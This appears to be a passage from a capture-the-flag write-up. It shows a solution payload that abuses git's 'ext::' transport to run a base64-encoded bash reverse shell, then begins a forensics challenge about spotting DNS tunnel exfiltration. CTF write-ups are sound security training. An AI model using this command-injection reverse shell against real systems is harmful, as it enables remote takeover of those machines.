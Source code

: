 ![](/assets/obsidian/dca1feb31f5161ef8e3f37fefb64327c.png){:target='_blank'}

Payload :

```
ext::sh -c echo% YmFzaCAtaSA+JiAvZGV2L3RjcC8xMjcuMC4wLjEvMTExMSAwPiYxCg==|base64% -d|bash
```


# Forensics


## Leak?

> Did this challenge after ctf event was over
{: .prompt-info }

### Information gathering

There's a lot of DNS non-exist queries, looks like DNS tunnel exfiltration

![](/assets/obsidian/74da552b0c9a1174e2a2cea52c05ca33.png){:target='_blank'}
